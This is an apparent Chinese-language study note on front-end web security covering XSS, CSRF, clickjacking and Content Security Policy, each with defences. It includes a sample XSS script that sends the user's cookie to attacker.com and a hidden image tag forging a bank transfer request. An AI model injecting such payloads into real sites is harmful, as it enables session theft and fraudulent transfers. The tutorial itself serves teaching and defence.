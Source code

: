 XSS攻击是一种常见的网络安全漏洞，攻击者通过**注入恶意脚本代码到网页中，使其在用户浏览器中执行**。这样做可以导致用户敏感信息泄露、会话劫持、恶意操作等问题。

下面是一个简单的XSS攻击的示例：

假设有一个博客网站，允许用户在评论中输入内容，并在网页中显示出来。如果网站没有对用户输入进行适当的处理和过滤，攻击者可以利用这个漏洞进行XSS攻击。

攻击者可以在评论中注入恶意脚本代码，例如：

```HTML
<script>
  // 发送用户的Cookie信息到攻击者的恶意网站
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

- 防止XSS攻击的方法包括输入验证和输出编码。
- 输入验证可以**过滤用户输入，防止恶意脚本注入**；
- 输出编码可以**将用户输入的内容进行转义**，确保它们被当作**纯文本输出**，而不是可执行的脚本
  - 如：使用HTML实体编码来替代特殊字符。

### CSRF（Cross-Site Request Forgery）跨站请求伪造

- CSRF攻击是一种利用用户**已登录的身份权限进行伪造请求**的攻击方式。攻击者通过诱使受害者在另一个网站上触发恶意请求，利用受害者在目标网站上的身份权限执行未经授权的操作。

下面是一个简单的CSRF攻击的示例：

假设受害者已经登录了一个在线银行网站，并且在同一浏览器中打开了一个恶意网站。

恶意网站中的攻击者准备了一个图片标签（`<img>`），其中包含了目标银行网站的转账请求：

```html
<img src="https://bankwebsite.com/transfer?amount=10000&recipient=attacker" width="0" height="0">
```

当受害者在恶意网站上访问时，浏览器会自动加载这个图片标签，并向目标银行网站发送了一个转账请求，将10000单位的货币转账给攻击者。

由于受害者已经在银行网站上登录，并且**浏览器会自动发送与当前域相关的Cookie信息**，目标银行网站会认为这是合法的请求并进行转账操作，而受害者并没有意识到这个请求的存在。

- 为了防止CSRF攻击，可以采取以下措施：

1. 使用**CSRF令牌（CSRF Token）**：在每个请求中包含一个令牌，用于验证请求的合法性。
2. 检查**Referer**头：验证请求的来源是否与当前域匹配。
3. 使用**SameSite Cookie**属性：限制Cookie只能在同一站点上发送，减少跨域请求的风险。
4. 验证请求的来源和目标：对于涉及敏感操作的请求，可以要求用户进一步验证身份，例如输入密码或进行二次确认。

### 点击劫持攻击（Clickjacking）

- 点击劫持是指攻击者将一个或多个透明的、恶意的网页元素覆盖在一个看似正常的网页上，诱使用户在不知情的情况下点击恶意元素，触发恶意操作。

- 防范点击劫持攻击的方法包括
  - 使用X-Frame-Options响应头来禁止页面被嵌套在 `<frame>` 或 `<iframe>` 中
  - 使用Content-Security-Policy（CSP）来限制页面的呈现方式。

### CSP（Content Security Policy）

- 内容安全策略是一种用于增强网页安全性的浏览器机制。它通过限制网页中可执行的内容来源和操作，帮助减少跨站脚本攻击（XSS）、数据注入和点击劫持等安全风险。
- 需要注意的是，CSP也可以通过其他方式进行配置，如通过`<meta>`标签嵌入到HTML文档中或通过.htaccess文件配置在服务器端。但在实际应用中，通常会使用HTTP响应头来设置CSP策略，因为它更为灵活和全面。
